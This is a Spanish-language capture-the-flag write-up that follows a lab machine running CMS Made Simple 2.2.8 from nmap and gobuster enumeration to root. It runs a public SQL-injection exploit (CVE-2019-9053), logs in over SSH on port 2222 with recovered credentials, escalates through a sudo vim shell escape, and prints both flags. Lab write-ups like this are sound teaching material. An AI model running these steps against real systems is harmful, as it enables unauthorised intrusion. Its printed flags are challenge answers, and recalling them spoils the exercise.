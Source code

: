 # 🛡️ Write-up – CTF: CMS Made Simple + SSH + Privilege Escalation
## 🧩 Descripción de la máquina
La máquina vulnerable expone una instalación de CMS Made Simple 2.2.8 accesible a través de un servidor web Apache. A través de la enumeración, se descubre un exploit de inyección SQL no autenticada (CVE-2019-9053) que permite obtener credenciales válidas. El acceso SSH está configurado en un puerto no estándar (2222), y una vez dentro del sistema como usuario, es posible escalar privilegios a root mediante un binario sudo mal configurado (vim con NOPASSWD). El objetivo es capturar las flags de usuario y root.

## 🧭 1. Escaneo inicial con Nmap
Comencé el CTF escaneando todos los puertos del objetivo para ver qué servicios estaban disponibles. Utilicé un escaneo agresivo de Nmap con scripts y detección de versiones:
```bash
nmap --privileged -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn -oN escaneo.txt 10.10.152.40
```

Los puertos más interesantes que descubrí fueron:
- 21 – FTP (vsftpd 3.0.3)
- 80 – HTTP (Apache 2.4.18)
- 2222 – SSH (OpenSSH 7.2p2)
  
Probé acceso anónimo al FTP, que estaba habilitado, pero no pude listar el contenido.

## 🔍 2. Enumeración web
Al acceder al puerto 80, vi la página por defecto de Apache. Así que ejecuté gobuster para buscar rutas ocultas:
```bash
gobuster dir -u http://10.10.152.40 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Encontré la ruta /simple, que resultó ser una instalación de CMS Made Simple.

## 📦 3. Identificación del CMS y versión
Al revisar el pie de página de la web, vi que la versión del CMS era:
```text
CMS Made Simple 2.2.8
```

Esto me dio una buena pista para buscar vulnerabilidades conocidas.

## 💥 4. Explotación con SQL Injection (CVE-2019-9053)
Buscando en Exploit-DB, encontré el exploit 46635, que permite explotar una inyección SQL no autenticada en versiones anteriores a la 2.2.10.

Ejecuté el exploit con Python:
```bash
python exploit.py -u http://10.10.152.40/simple
```

Y recuperé credenciales válidas:
```text
Usuario: mitch
Contraseña: secret
```

## 🔐 5. Acceso por SSH
Probé conectarme al puerto 2222 usando esas credenciales:
```bash
ssh -p 2222 mitch@10.10.152.40
```

¡Funcionó! Ya tenía acceso como el usuario mitch.

## 🏁 6. Obtención de la flag de usuario
Una vez dentro, revisé el home del usuario y encontré la flag:
```bash
cat user.txt
```
```text
Flag de usuario:
RzAwZCBqMGIsIGtlZXAgdXAh
```

## 📈 7. Escalada de privilegios
Ejecuté sudo -l para ver si podía ejecutar algo como root. Tuve suerte:
```bash
(root) NOPASSWD: /usr/bin/vim
```
Esto me permitió usar vim como root sin contraseña. Aproveché esta configuración con:
```bash
sudo vim -c ':!/bin/sh'
```

Con eso obtuve una shell con privilegios root (#).

## 👑 8. Acceso a la flag de root
Ya como root, navegué al directorio /root y encontré la flag final:
```bash
cd /root
cat root.txt
```
```text
Flag de root:
VzNsbCBkMG4zLiBZb3UgbWFkZSBpdCE=
```

## ✅ Conclusión
Esta máquina fue muy entretenida. Me permitió practicar:
- Enumeración de servicios y puertos
- Descubrimiento y análisis de versiones de CMS
- Uso de exploits públicos (SQLi sin autenticación)
- Conexión SSH en puerto no estándar
- Escalada de privilegios mediante binario vulnerable (vim con sudo)
  
Una ruta completa desde la web hasta el root. ¡Muy buen reto para practicar técnicas reales de pentesting web + post-explotación!
